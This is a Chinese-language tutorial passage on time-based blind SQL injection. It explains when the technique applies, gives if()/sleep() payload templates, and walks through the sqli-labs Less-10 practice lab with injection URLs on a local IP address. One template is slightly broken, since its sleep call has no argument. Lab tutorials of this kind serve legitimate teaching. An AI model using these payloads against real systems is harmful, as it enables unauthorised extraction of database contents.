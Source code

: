 现实注入环境中，我们还会遇到这样一种情况：语句执行后并不能通过页面的内容来判断。但是俗话说得好，**没有条件我们就创造条件**。这种情况下，我们可以通过构造语句，使得语句正确与错误的时候响应时长不一样,然后根据页面的响应时长，来判断信息，这就是时间盲注。  
  


### a. 注入条件      
  

  
首先代码肯定要存在`SQL`注入漏洞的。  
  
在不回显数据的情况下，我们并不能通过页面的内容来判断注入语句的真假。  
  
这个时候，我们可以尝试使用时间盲注。  
  
   
### b. 时间盲注方法  
  
其实盲注的大方向跟布尔注入没什么区别，只是加了个`if`语句来判断真假，这就是所谓的创造条件。  
  
```
# 方法一  
  
if(left((select database()),1)='a',0,sleep(3))  
  
# 语句说明： if(a,b,c)意思为若a为真。则执行b,反之执行c。通过语句我们可以知道当left语句为真，直接执行，否则延时3秒执行。当我们看到页面响应有延时的时候，证明判断错误。  
  
# 方法二  
  
if(ascii(substr((select database()),1,1))=115,0,sleep)  
  
# 语句说明： 原理与上一种方法相同
```  
  
### c. 靶场演示  
  
此次实验环境是`sqli-labs`的第十关。  
  
先进行环境测试，运用正常语句，观察正常页面。  
  
```
http://192.168.43.53/sqli-labs-master/Less-10/?id=1
```    
  
<img src="https://s1.ax1x.com/2020/10/11/0gwmhF.png">  
  
加上引号，观察页面。   
  
```
http://192.168.43.53/sqli-labs-master/Less-10/?id=1'
```  
<img src="https://s1.ax1x.com/2020/10/11/0gwmhF.png">   

可以看出，哪怕我们加上引号引发错误，页面还是没有变化，意味着我们无法通过页面的信息来判断注入语句的对错，这正是时间盲注的运用环境。  

使用`left`函数截取判断。  

```
http://192.168.43.53/sqli-labs-master/Less-10/?id=1" and if(left((select user()),1)='a',0,sleep(3))--+
```     
  